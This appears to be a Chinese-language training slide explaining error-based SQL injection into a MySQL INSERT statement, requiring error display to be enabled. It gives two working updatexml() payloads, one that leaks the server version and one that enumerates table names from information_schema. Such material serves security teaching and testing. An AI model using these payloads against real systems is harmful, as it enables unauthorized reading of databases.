

# 所以，其实这算是一个mysql insert注入
前提，打开显示错误模式
在insert语句中人为构造语法错误
updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数
or updatexml(1,concat(0x7e,(version())),0) or
or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or